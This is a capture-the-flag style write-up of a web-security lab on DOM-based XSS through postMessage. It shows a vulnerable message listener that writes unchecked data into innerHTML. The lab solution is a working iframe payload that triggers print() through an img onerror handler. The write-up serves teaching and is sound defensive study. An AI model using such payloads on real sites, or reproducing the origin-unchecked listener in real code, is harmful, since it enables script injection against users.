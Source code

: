As the event listener does not verify the origin of the message, and the postMessage() method specifies the targetOrigin "*", the event listener accepts the payload and passes it into a sink, in this case, the eval() function. 
### Lab: DOM XSS using web messages

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called. 



This lab have the following script:
```html
</section>
<div id="ads"></div>
<script>
window.addEventListener('message', function(e) {
  document.getElementById('ads').innerHTML = e.data;
});
</script>
```
**window.addEvenListener** examples:

```js
window.addEventListener("click", function() {
    alert("Window was clicked!");
});
```
When the user clicks anywhere on the window, an alert pops up.

```js
window.addEventListener("message", function(event) {
    console.log("Received message:", event.data);
}, false);
```
Listens for messages sent via **window.postMessage().**

Example: Sending a Message to an iframe
```html
<iframe id="myIframe" src="https://example.com"></iframe>

<script>
  var iframe = document.getElementById('myIframe');
  iframe.contentWindow.postMessage('Hello from parent', 'https://example.com');
</script>
```
-    This sends **"Hello from parent"** to the iframe at `https://example.com`.
 -   The iframe must have an event listener for message to receive it.

**Lab solution:**

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
Store the exploit and deliver it to the victim.

When the iframe loads, the `postMessage()` method sends a web message to the home page. The event listener, which is intended to serve ads, takes the content of the web message and inserts it into the div with the ID ads. However, in this case it inserts our img tag, which contains an invalid src attribute. This throws an error, which causes the onerror event handler to execute our payload. 
